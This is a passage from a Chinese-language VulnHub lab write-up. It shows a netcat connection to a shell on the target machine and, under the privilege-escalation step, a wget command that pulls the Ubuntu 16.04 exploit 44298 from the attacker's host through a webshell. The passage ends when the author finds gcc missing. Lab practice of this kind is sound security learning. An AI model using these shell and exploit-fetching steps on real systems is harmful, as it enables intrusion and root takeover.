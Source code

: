 第二次post完之后，浏览器会进入阻塞状态，在kali中用nc连接即可

```shell
nc -n 192.168.85.139 8888
```

![](vulnhub-练习记录\47.png)

## 提升权限

接下来就是尝试能不能提权成root，先查看一下版本信息

![](vulnhub-练习记录\48.png)

找一下ubuntu 16.04的提权脚本

![](vulnhub-练习记录\49.png)

挑一个44298来看看，将这个文件移动到`/var/www/html`目录下之后，在webshell中运行

```shell
wget http://192.168.85.134/44298.c /tmp/
```

然而编译的时候一个比较尴尬的事情发生了，没有安装gcc
